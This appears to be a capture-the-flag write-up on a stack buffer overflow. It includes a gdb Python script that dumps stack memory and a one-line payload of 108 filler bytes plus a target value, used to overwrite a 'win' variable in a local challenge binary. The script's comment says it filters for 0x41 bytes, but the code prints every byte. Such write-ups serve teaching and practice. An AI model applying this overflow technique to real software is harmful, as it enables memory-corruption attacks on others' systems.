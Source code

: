 In this challenge we will overflow the buffer so that we can get to the memory location of win variable

First I entered 4,5 A as input to see where the input variable starts from.

And for that i used the python script to print out all the stack from rsp to rbp.

```python
import gdb

# Function to read memory from rsp and print address and value if it's 0x41
def print_stack(rsp, rbp):
    num_bytes = rbp - rsp
    print(f"Reading memory from {hex(rsp)} to {hex(rsp + num_bytes)}:")

    # Iterate over the range of bytes
    
    for i in range(num_bytes+1):
        # Calculate the current memory address
        current_address = rsp + i
        
        # Read each byte from the address
        byte_value = gdb.parse_and_eval('*((unsigned char*){})'.format(hex(current_address)))

        # Print the address and value only if the value is 0x41
        print(f"Address: {hex(current_address)} | Value: {hex(byte_value)}")


# Get the current stack pointer (rsp)
rsp = gdb.parse_and_eval("$rsp")
rbp = gdb.parse_and_eval("$rbp")
print_stack(rsp, rbp)
```

Now we know from where the input buffer starts from and from that we know that win variable right next to it and loose variable right after win variable

The value of the win variable can be found out using gdb

Since we cannot have `\n` we will use python for this

    python -c 'import sys; sys.stdout.buffer.write(b"A"*(108) + b"\xe4\x64\x12\x5b")' | ./program 



